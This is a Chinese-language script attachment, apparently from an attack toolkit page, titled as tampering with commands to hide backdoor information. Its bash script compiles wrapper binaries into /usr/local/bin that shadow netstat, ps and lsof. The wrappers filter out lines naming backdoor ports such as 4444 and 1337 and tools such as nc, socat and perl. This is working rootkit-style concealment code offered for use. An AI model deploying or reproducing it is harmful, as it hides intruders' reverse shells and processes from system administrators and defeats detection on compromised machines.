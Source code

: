 ###脚本附件二(生成ELF二进制格式)

> 篡改命令，已隐藏后门信息(防止被发现)

bd_hide_c.sh

隐藏 进程 ip 端口 perl nc 等各类信息

```shell
#!/bin/bash

#netstat
#------------------------
touch /tmp/.netstat.c

cat <<EOF >> /tmp/.netstat.c
int main(int a,char**b){
  char*c[999999]={"sh","-c","/bin/netstat \$*|grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'"};
  memcpy(c+3,b,8*a);
  execv("/bin/sh",c);
}
EOF

gcc -xc /tmp/.netstat.c -o /usr/local/bin/netstat

rm /tmp/.netstat.c


#ps
#------------------------
touch /tmp/.ps.c

cat <<EOF >> /tmp/.ps.c
int main(int a,char**b){
  char*c[999999]={"sh","-c","/bin/ps \$*|grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'"};
  memcpy(c+3,b,8*a);
  execv("/bin/sh",c);
}
EOF

gcc -xc /tmp/.ps.c -o /usr/local/bin/ps

rm /tmp/.ps.c


#lsof
#------------------------
touch /tmp/.lsof.c

cat <<EOF >> /tmp/.lsof.c
int main(int a,char**b){
  char*c[999999]={"sh","-c","/usr/bin/lsof \$*|grep -Ev '4444|3177|1177|1337|19526|socat|LEGO|nc|perl'"};
  memcpy(c+3,b,8*a);
  execv("/bin/sh",c);
}
EOF

gcc -xc /tmp/.lsof.c -o /usr/local/bin/lsof

rm /tmp/.lsof.c
```



